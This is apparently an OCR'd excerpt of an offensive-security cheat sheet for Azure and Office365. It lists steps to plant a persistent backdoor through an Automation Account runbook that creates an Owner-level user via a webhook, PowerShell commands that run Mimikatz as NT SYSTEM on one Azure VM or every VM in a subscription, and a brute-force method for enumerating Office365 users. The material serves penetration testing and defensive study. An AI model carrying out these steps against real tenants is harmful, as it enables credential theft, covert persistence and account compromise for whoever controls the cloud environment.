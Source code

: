 OWA Version Discovery : autodiscover.domain.com

## Azure AD - Persistence via Automation accounts

* Create a new Automation Account
  * "Create Azure Run As account": Yes
* Import a new runbook that creates an AzureAD user with Owner permissions for the subscription*
  * Sample runbook for this Blog located here – <https://github.com/NetSPI/MicroBurst>
  * Publish the runbook
  * Add a webhook to the runbook
* Add the AzureAD module to the Automation account
  * Update the Azure Automation Modules
* Assign "User Administrator" and "Subscription Owner" rights to the automation account
* Eventually lose your access…
* Trigger the webhook with a post request to create the new user

    ```powershell
    $uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
    $AccountInfo  = @(@{RequestBody=@{Username="BlogDemoUser";Password="Password123"}})
    $body = ConvertTo-Json -InputObject $AccountInfo
    $response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
    ```

## Azure VM - Execute command as NT SYSTEM with Contributor right

> Allow anyone with "Contributor" rights to run PowerShell scripts on any Azure VM in a subscription as NT Authority\System

```powershell
PS C:\> Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name

ResourceGroupName    Name
-----------------    ----
TESTRESOURCES        Remote-Test
PS C:\> Invoke-AzureRmVMRunCommand -ResourceGroupName TESTRESOURCES -VMName Remote-Test -CommandId RunPowerShellScript -ScriptPath Mimikatz.ps1
```

Against the whole subscription using MicroBurst.ps1

```powershell
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

## Office365 - Enumerating Users

NOTE: By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Bruteforce user enum : <https://bitbucket.org/grimhacker/office365userenum/src/master/> based on the endpoint <https://login.microsoftonline.com/getuserrealm.srf?login=firstname.lastname@domain.com&xml=1>
